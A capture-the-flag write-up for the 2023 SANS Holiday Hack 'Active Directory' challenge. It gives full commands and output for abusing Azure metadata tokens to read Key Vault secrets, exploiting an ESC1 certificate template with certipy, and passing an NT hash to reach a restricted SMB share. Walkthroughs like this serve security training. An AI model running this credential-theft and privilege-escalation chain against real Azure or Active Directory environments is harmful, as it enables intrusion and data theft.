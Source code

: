 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## 	Active Directory
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

### Hints
#### Useful Tools
*From: Ribb Bonbowford*  
It looks like Alabaster's SSH account has a couple of tools installed which might prove useful.
#### Misconfiguration ADventures
*From: Alabaster Snowball*  
Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

### Solution
I went back as `alabaster` on the `ssh-server-vm` from [Certificate SSHenanigans]() and realized the reason for the `impacket` folder. I started poking around with Azure APIs a little more, discovering an Azure Key Vault resource:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?api-version=2021-04-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}}]}
```
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-10-30T13:17:02.532Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-10-30T13:17:02.532Z"},"properties":{"sku":{"family":"A","name":"Standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[],"enabledForDeployment":false,"enabledForDiskEncryption":false,"enabledForTemplateDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"enableRbacAuthorization":true,"vaultUri":"https://northpole-it-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-11-12T01:47:13.059Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-11-12T01:50:52.742Z"},"properties":{"sku":{"family":"A","name":"standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"0bc7ae9d-292d-4742-8830-68d12469d759","permissions":{"keys":["all"],"secrets":["all"],"certificates":["all"],"storage":["all"]}},{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"1b202351-8c85-46f1-81f8-5528e92eb7ce","permissions":{"secrets":["get"]}}],"enabledForDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"vaultUri":"https://northpole-ssh-certs-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}}],"nextLink":"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01&$skiptoken=bm9ydGhwb2xlLXJnMXxub3J0aHBvbGUtc3NoLWNlcnRzLWt2"}
```

Switching token for the resource https://vault.azure.net, I was able to get the content of the Vault:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4
{"value":[{"id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}],"nextLink":null}
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
{"value":"Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru","id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}
```

The secret contains the following Powershell script with hardcoded credentials in clear text:
```cmd
Import-Module ActiveDirectory;
$UserName = "elfy";
$UserDomain = "northpole.local";
$UserUPN = "$UserName@$UserDomain";
$Password = ConvertTo-SecureString "J4`ufC49/J4766" -AsPlainText -Force;
$DCIP = "10.0.0.53";
New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname "" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru
```

I then ran certipy to obtain vulnerable certificate configurations from AD:
```bash
alabaster@ssh-server-vm:~/impacket$ certipy find -u elfy@northpole.local -p 'J4`ufC49/J4766' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231217214704_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231217214704_Certipy.txt'
[*] Saved JSON output to '20231217214704_Certipy.json'
```

Looking at the output from `certipy`, I observed that the `NorthPoleUsers` template was vulnerable:
```bash
  # Output removed to shorten report
  "Certificate Templates": {
    "0": {
      "Template Name": "NorthPoleUsers",
      "Display Name": "NorthPoleUsers",
      "Certificate Authorities": ["northpole-npdc01-CA"],
      # Output removed to shorten report
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject, and template allows client authentication"
      }
    }
  },
```

Based on that, I started the exploitation:
```bash
alabaster@ssh-server-vm:~/impacket$ lookupsid.py 'northpole.local/elfy:J4`ufC49/J4766@10.0.0.53'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.0.0.53
[*] StringBinding ncacn_np:10.0.0.53[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1338289034-4095587347-713453443
# Output removed to shorten report
1103: NORTHPOLE\researchers (SidTypeGroup)
1104: NORTHPOLE\elfy (SidTypeUser)
1105: NORTHPOLE\wombleycube (SidTypeUser)
# Output removed to shorten report
```
```bash
alabaster@ssh-server-vm:~/impacket$ certipy auth -pfx 'wombleycube.pfx' -username 'wombleycube' -domain 'northpole.local' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```
```bash
alabaster@ssh-server-vm:~/impacket$ smbclient.py -dc-ip 10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -target-ip 10.0.0.53 northpole.local/wombleycube@npdc01.northpole.local
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
# use FileShare
# cd super_secret_research
# ls
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 .
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 ..
-rw-rw-rw-        231  Sun Dec 17 01:15:12 2023 InstructionsForEnteringSatelliteGroundStation.txt
```

The filename `InstructionsForEnteringSatelliteGroundStation.txt` is the flag and once downloaded I could get the content which will be useful for the Speaker Access:
```
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```


---
## [Space Island Door Access Speaker](/20%20-%20Space%20Island%20Door%20Access%20Speaker/README.md)
## [Camera Access](/21%20-%20Camera%20Access/README.md)
## [Missile Diversion](/22%20-%20Missile%20Diversion/README.md)
## [BONUS! Fishing Guide](/23%20-%20BONUS%21%20Fishing%20Guide/README.md)
## [BONUS! Fishing Mastery](/24%20-%20BONUS%21%20Fishing%20Mastery/README.md)
## [Conclusions](/README.md#conclusions)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## [Holiday Hack Orientation](/01%20-%20Holiday%20Hack%20Orientation/README.md)
## [Snowball Fight](/02%20-%20Snowball%20Fight/README.md)
## [Linux 101](/03%20-%20Linux%20101/README.md)
## [Reportinator](/04%20-%20Reportinator/README.md)
## [Azure 101](/05%20-%20Azure%20101/README.md)
## [Luggage Lock](/06%20-%20Luggage%20Lock/README.md)
## [Linux PrivEsc](/07%20-%20Linux%20PrivEsc/README.md)
## [Faster Lock Combination](/08%20-%20Faster%20Lock%20Combination/README.md)
## [Game Cartridges: Vol 1](/09%20-%20Game%20Cartridges%3A%20Vol%201/README.md)
## [Game Cartridges: Vol 2](/10%20-%20Game%20Cartridges%3A%20Vol%202/README.md)
## [Game Cartridges: Vol 3](/11%20-%20Game%20Cartridges%3A%20Vol%203/README.md)
## [Na'an](/12%20-%20Na%27an/README.md)
## [KQL Kraken Hunt](/13%20-%20KQL%20Kraken%20Hunt/README.md)
## [Phish Detection Agency](/14%20-%20Phish%20Detection%20Agency/README.md)
## [Hashcat](/15%20-%20Hashcat/README.md)
## [Elf Hunt](/16%20-%20Elf%20Hunt/README.md)
## [Certificate SSHenanigans](/17%20-%20Certificate%20SSHenanigans/README.md)
## [The Captain's Comms](/18%20-%20The%20Captain%27s%20Comms/README.md)
